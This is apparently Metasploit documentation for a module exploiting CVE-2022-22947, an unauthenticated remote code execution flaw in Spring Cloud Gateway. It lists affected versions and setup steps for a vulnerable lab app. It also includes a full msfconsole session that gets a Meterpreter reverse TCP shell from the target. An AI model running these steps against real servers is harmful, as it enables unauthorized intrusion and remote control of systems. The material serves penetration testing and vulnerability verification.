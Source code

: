 ## Vulnerable Application

The vulnerability exploits [CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947) an unauthenticated RCE
vulnerability in Spring Cloud Gateway. According to [VMware](https://tanzu.vmware.com/security/cve-2022-22947)
the versions affected are:

- 3.1.0
- 3.0.0 to 3.0.6
- Older, unsupported versions are also affected

A sample demo [project](https://github.com/wdahlenburg/spring-gateway-demo) is available,
which can be used to run a vulnerable server by following the installation instructions below.
    
## Installation Instructions

```bash
    # To use the pre-compile vulnerable application
    wget https://github.com/wdahlenburg/spring-gateway-demo/releases/download/v.0.0.1/spring-gateway-demo-0.0.1-SNAPSHOT.jar
    sudo apt install default-jdk
    java -jar spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000


    # If you want to compile for a version of spring cloud gateway on your own
    git clone https://github.com/wdahlenburg/spring-gateway-demo.git

    # In pom.xml, change the version in '<spring-cloud.version>2021.0.1-SNAPSHOT</spring-cloud.version>'. 
    # To see which spring cloud version includes which version of spring cloud gateway, 
    # look here : https://repo1.maven.org/maven2/org/springframework/cloud/spring-cloud-dependencies/

    apt install maven
    mvn package -DskipTests
    java -jar target/spring-gateway-demo-0.0.1-SNAPSHOT.jar # This will host the app on port 9000
```


## Verification Steps

- Run the vulnerable server
- Start msfconsole
- Do: `use exploit/linux/http/spring_cloud_gateway_rce`
- Do: `set RHOSTS <server_ip>`
- Do: `set RPORT 9000`
- Do: `run`
- You should get a Meterpreter shell.

## Options

No particular option to be set

## Scenarios

Spring Cloud gateway version 3.1.0 on Linux kali 5.18.0-kali5-amd64**

```
msf6 > use exploit/linux/http/spring_cloud_gateway_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RHOSTS 192.168.19.140
RHOSTS => 192.168.19.140
msf6 exploit(linux/http/spring_cloud_gateway_rce) > set RPORT 9000
RPORT => 9000
msf6 exploit(linux/http/spring_cloud_gateway_rce) > run

[*] Started reverse TCP handler on 192.168.1.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if server is vulnerable
[*] Triggering code execution using routes
[+] Route deleted
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Triggering code execution using routes
[*] Sending stage (40164 bytes) to 192.168.1.7
[*] Meterpreter session 7 opened (192.168.1.7:4444 -> 192.168.1.7:53264) at 2022-10-11 17:44:53 -0400
[+] Route deleted

meterpreter >
```


